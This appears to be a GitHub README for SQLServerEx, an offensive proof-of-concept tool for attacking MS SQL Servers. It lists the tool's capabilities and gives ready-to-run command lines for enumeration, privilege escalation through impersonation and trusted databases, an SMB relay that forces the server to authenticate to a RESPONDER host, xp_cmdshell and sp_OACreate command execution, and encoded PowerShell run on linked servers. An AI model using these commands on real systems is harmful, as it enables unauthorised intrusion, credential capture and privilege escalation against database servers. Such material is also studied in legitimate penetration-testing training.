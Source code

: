 
### MS SQL Server Command Execution

SQLServerEx is a PoC designed to execute commands / code on remote MS SQL Servers via publicly known vectors. The tool was inspired by Offensive Security courses so all kudos to them, I just put some dotNETs together.

Could be executed in both interactive and non-interactive modes providing command line arguments. Current functionality includes:

* Retrieves current user roles, linked servers and logins to be impersonated.
* Smb Relay Attack.
* Command execution via Linked Servers, Xp_cmdshell, sp_OACreate, invoking DLLs.
* PrivEsc via user impersonation and db_owner vectors.
* Reflective loading via exposed StartR method.

#### SQL server enumeration:

Could be done under current domain user context or with supplied credentials:

```
SQLServerEx.exe -s SQLSERVER1 -d master
SQLServerEx.exe -s SQLSERVER1 -u sa -p Password1
```
`-d` is an optional target database to connect. Defaults to master. Credentials are optional too.

Privilege escalation via trusted database:

```
SQLServerEx.exe -s SQLSERVER1 -e escalate -o msdb
SQLServerEx.exe -s SQLSERVER1 -u user -p MyPassword! -e escalate -o msdb
```

#### Command execution

SMB relay. Forces the SQL server to authenticate against SMB share:

```
SQLServerEx.exe -s SQLSERVER1 -d master -e relay -r RESPONDER
```

Various command execution methods:

```
SQLServerEx.exe -s SQLSERVER1 -e xpshell -i sa -c whoami
SQLServerEx.exe -s SQLSERVER1 -e sp -i dbo -c whoami
SQLServerEx.exe -s SQLSERVER1 -e rundll -i sa
```
`-i` is an optional user to impersonate. Defaults to sa.

Command exec on the linked SQL server:

```
SQLServerEx.exe -s SQLSERVER1 -i sa -e link -l LINKEDSQLSERVER3 -c "powershell -enc ZQBjAG"
```